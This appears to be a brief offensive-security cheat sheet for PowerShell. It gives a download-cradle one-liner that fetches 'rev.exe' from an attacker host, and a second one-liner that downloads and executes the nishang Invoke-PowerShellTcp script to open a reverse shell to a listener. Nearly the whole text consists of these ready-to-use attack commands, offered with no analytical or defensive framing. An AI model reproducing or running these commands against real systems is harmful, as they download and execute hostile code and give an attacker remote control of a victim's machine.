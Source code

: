 # powershell

- Powershell equivalent of `wget`

```powershell
powershell "(New-Object Net.WebClient).Downloadfile('http://$ip:8888/rev.exe','rev.exe')"
```

- Powershell reverse shell can be found at [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Connect to listener using

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $ip -Port 1234
```
